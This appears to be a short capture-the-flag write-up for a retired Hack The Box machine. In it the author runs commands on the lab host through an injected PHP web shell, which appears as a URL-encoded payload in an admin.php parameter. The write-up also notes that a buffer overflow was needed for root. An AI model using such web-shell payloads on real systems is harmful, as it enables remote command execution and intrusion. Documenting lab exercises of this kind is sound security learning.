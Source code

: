 ```
total 216
-rw-rw-r-- 1 xalvas xalvas    157 Jun 27 18:09 LICENSE
-rw-rw-r-- 1 xalvas xalvas   1162 Jun 27 18:09 README
-rw-rw-r-- 1 xalvas xalvas   1939 Jun 27 18:09 README.md
drwxrwxr-x 3 xalvas xalvas   4096 Jun 27 18:09 lib
-rw-rw-r-- 1 xalvas xalvas 199072 Jun 27 18:09 peda.py
-rw-rw-r-- 1 xalvas xalvas   2077 Jun 27 18:09 python23-compatibility.md
```

```
http://10.10.10.27/admin.php?html=%3C%3Fphp++if(isset(%24_REQUEST[%27cmd%27])){+++++++++echo+%22%3Cpre%3E%22%3B+++++++++%24cmd+%3D+(%24_REQUEST[%27cmd%27])%3B+++++++++system(%24cmd)%3B+++++++++echo+%22%3C%2Fpre%3E%22%3B+++++++++die%3B+}++%3F%3E&cmd=ls+-l+%2Fhome%2Fxalvas%2Falarmclocks
```

```
total 5708
-rw-r--r-- 1 root root 3196668 Jun 27 13:07 rick.wav
-rw-r--r-- 1 root root 2645839 Jun 27 13:07 xouzouris.mp3
```

##### PEDA?

```
PEDA - Python Exploit Development Assistance for GDB

Version: 1.0

Release: special public release, Black Hat USA 2012

0. Credits
    - Huy Phan (pdah) for reviewing code

1. Introduction
PEDA is a Python GDB script with many handy commands to help speed up 
exploit development process on Linux/Unix. It is also a framework for 
writing custom interactive Python GDB commands.
```

### RETIRED

Unfortunately I wasn't able to progress to get the root.txt before the machine
was retired. Would be interesting to read up on other people's write ups to
see what would have been the next steps for priviledge escalation.

```
https://reboare.github.io/hackthebox/calamity.html
```

Seems like I lucked out by getting the user.txt as I only dumped the contents
of the file without actually discovering the user password was in the audio
files in the user's home directory and logging in. The remaining work to get
root.txt seems quite involved and required a buffer overflow attack against an
executable within the user's home directory.
